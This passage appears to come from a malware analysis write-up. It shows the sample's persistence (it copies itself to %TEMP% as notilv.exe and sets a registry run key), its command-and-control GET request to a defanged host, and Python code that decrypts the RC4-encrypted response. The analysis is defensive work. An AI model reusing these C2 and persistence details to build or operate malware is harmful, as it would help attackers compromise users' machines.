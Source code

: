 
123456789101112131415

HTTP/1.1 200 OKDate: Wed, 11 Mar 2015 00:14:14 GMTServer: Apache/2.4.12 (Unix) OpenSSL/1.0.1e-fipsmod_bwlimited/1.4 mod_fcgid/2.3.10-devX-Powered-By: PHP/5.4.37Keep-Alive: timeout=5Connection: Keep-AliveTransfer-Encoding: chunkedContent-Type: text/html 17gh2045032541916733707 0





The first two pieces of data ('17' and 'gh204503254') are then written to the ibmCon6.tmp file referenced earlier.
The malware will copy itself to the %TEMP% directory with the executable name of 'notilv.exe'. Due to the previously written registry key, this file will execute when the machine is restarted and the current user logs in.
The malware then makes the following request:





GET /index.php?fn=s1&uid=fc1a8359e0f4cb8d60920dc066b8b21c
HTTP/1.1
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.1;
Trident/6.0)
Host: biosnews[.]info
Connection: Keep-Alive




123456

GET /index.php?fn=s1&uid=fc1a8359e0f4cb8d60920dc066b8b21cHTTP/1.1User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.1;Trident/6.0)Host: biosnews[.]infoConnection: Keep-Alive





The filename and uid parameters are statically set in the above request. The response data is decrypted using the RC4 cryptographic stream cipher. The 'gh204503254' data that was previously downloaded is used as the key. The following Python code can be used for decryption, using the 'gh204503254' key:





from wincrypto import CryptCreateHash, CryptHashData,
CryptDeriveKey, CryptDecrypt
 
CALG_RC4 = 0x6801
CALG_MD5 = 0x8003
 
md5_hasher = CryptCreateHash(CALG_MD5)
CryptHashData(md5_hasher, 'gh204503254')
rc4_key = CryptDeriveKey(md5_hasher, CALG_RC4)
decrypted_data = CryptDecrypt(rc4_key, final_data)
pp.pprint(decrypted_data)




1234567891011
